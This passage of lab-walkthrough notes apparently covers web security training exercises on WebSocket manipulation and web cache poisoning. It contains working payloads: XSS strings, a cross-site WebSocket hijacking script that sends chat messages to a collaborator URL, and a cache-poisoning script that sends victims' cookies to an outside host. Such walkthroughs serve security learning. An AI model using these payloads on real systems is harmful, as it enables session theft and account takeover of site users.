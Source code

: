 
## Labs
### 1. Manipulating WebSocket messages to exploit vulnerabilities
>Write something in Live Chat. Go to WebSocket History tab in Burp, catch you request and send it to Repeater. Change your message to ```<img src=123 onerror=alert()>```

### 2. Manipulating the WebSocket handshake to exploit vulnerabilities
```
X-Forwarded-For: 1.1.1.1
<img src=1 oNeRrOr=alert`1`>
```

### 3. Cross-site WebSocket hijacking
```
<script>
    var ws = new WebSocket('wss://your-websocket-url/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```


# Web cache poisoning
## Approach  
The main tip I've got there is to watch for ```/resources/js/tracking.js``` file and ```X-Cache: hit``` header in response. If you got only tracking.js without X-Cache - no cache poisoning here, folks.  
![image](https://user-images.githubusercontent.com/58632878/225033745-33636739-0101-422f-a9b7-bf125f55201f.png)  
  
If you got both file and header, the first thing you should try is to inject your exploit server into **Host:** or **X-Forwarded-Host:** headers and check them in response:  
![image](https://user-images.githubusercontent.com/58632878/225035542-13e03e9b-b1b7-4be8-8db0-a10a340e33dd.png)  
  
**ATTENTION:** It is really important to send your poisoned request more than once. For me, I had to send it like 10 times to poison the cache.  

You got the poisoned cache with X-Forwarded-Host? Cool, now go to your exploit server, set the File name /resources/js/tracking.js and in Body section paste the next payload: ```document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')```. Poison web cache with your server and wait for victim's cookies.  
![image](https://user-images.githubusercontent.com/58632878/225039388-6cb922d5-2a22-4f00-a886-b14a5435c7ef.png)


## Labs
### 1. Web cache poisoning with an unkeyed header
>Set the next header in request to the home page
```
X-Forwarded-Host: kek.com"></script><script>alert(document.cookie)</script>//
```
